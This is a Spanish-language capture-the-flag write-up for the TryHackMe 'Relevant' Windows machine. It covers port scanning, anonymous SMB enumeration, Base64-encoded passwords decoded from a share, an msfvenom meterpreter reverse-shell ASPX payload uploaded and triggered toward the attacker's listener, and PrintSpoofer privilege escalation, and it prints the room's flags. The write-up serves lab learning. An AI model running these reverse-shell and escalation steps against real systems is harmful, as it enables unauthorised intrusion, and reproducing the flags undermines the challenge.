 # Relevant

## Escaneo de puertos

Realizamos primero un escaneo de puertos para ver los puertos abiertos de la máquina vulnerable.

```
nmap -A -sV -sC -T4 -p- 10.10.121.56
```

Después de esperar unos minutos tenemos los siguientes resultados:

![Escaneo de puertos](./images/Pasted_image_20250222121711.png)

Y estos son los resultados del script de`nmap`.

![Escaneo de puertos](./images/Pasted_image_20250222121902.png)

## Enumerating

Tenemos un servicio HTTP por el puerto 80. Sólo nos aparece la página por defecto de Microsoft IIS.

![[Pasted image 20250222122114.png]]

Vamos a enumerar los directorios con`gobuster`.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.121.56
```

![[Pasted image 20250222124555.png]]

Pero no encontramos nada relevante.

Ahora probamos a enumerar con SMB. Usamos el siguiente comando:

```
smbclient -L 10.10.121.56
```

Accedemos como anónimo y nos muestra los siguientes resultados en los que vemos que hay un sharename llamado`nt4wrksv`.

![[Pasted image 20250222123358.png]]

Probamos a acceder:

```
smbclient \\\\10.10.121.56\\nt4wrksv
```

![[Pasted image 20250222123524.png]]

Listamos el contenido de la ubicación en la que estamos y hay un archivo de`passwords.txt`.

![[Pasted image 20250222123614.png]]

Nos los descargamos y salimos.

```
get passwords.txt
```

![[Pasted image 20250222123702.png]]

Mostramos el contenido en el anfitrión.

![[Pasted image 20250222123727.png]]

Y vemos que claramente está codificado en Base64. Decodificamos con el siguiente comando:

```
echo -n Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d 
```

![[Pasted image 20250222123850.png]]

El usuario es`Bob`y la contraseña es`!P@$$W0rD!123`.

Y la de Bill también tenemos:

`bill`

```
Juw4nnaM4n420696969!$$$
```

![[Pasted image 20250222123958.png]]

Hacemos otro escaneo de`nmap`para determinar qué vulnerabilidades hay:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.121.56
```

El servidor de Samba es probablemente vulnerable a RCE por el **CVE-2017-0143**.

![[Pasted image 20250222125516.png]]
## Exploitation

Vamos a usar`msfvenom`para crear una reverse shell aprovechándonos del exploit.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.3.33 lport=4444 -f aspx -o shell.aspx
```

![[Pasted image 20250222130621.png]]

Subimos la reverse shell al network share.

```
put shell.aspx
```

![[Pasted image 20250222131746.png]]

Iniciamos un puerto en escucha en Metasploit:

```
msfconsole -q
```

Usamos el siguiente exploit:

```
use exploit/multi/handler
```

Cargamos el payload que queremos:

```
set payload windows/x64/meterpreter_reverse_tcp
```

Configuramos la IP y el puerto con la de Kali en la VPN.

```
set lhost 10.8.3.33
set lport 4444
```

Ejecutamos el exploit:

```
run
```

![[Pasted image 20250222132122.png]]

Abrimos la shell en la víctima

```
curl http://10.10.160.251:49663/nt4wrksv/shell.aspx 
```

Y se nos inicia la consola de meterpreter que estaba en escucha.

![[Pasted image 20250222134122.png]]

La flag de users está en la siguiente ubicación:

```
cat c:/users/bob/desktop/user.txt
```

![[Pasted image 20250222134239.png]]

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Escalada de privilegios

Comprobamos los privilegios que tiene la sesión de meterpreter.

![[Pasted image 20250222134526.png]]

Tenemos el de`SeImpersonatePrivilege`.

Nos descargamos`PrintSpoofer64.exe`.

https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Y subimos el archivo.

![[Pasted image 20250222135514.png]]

Nos ubicamos donde está el PrintSpoofer64.exe y lo ejecutamos.

```
PrintSpoofer64.exe -i -c powershell.exe
```

![[Pasted image 20250222140243.png]]

Finalmente, obtenemos la flag del root.

![[Pasted image 20250222140501.png]]

```
THM{1fk5kf469devly1gl320zafgl345pv}
```


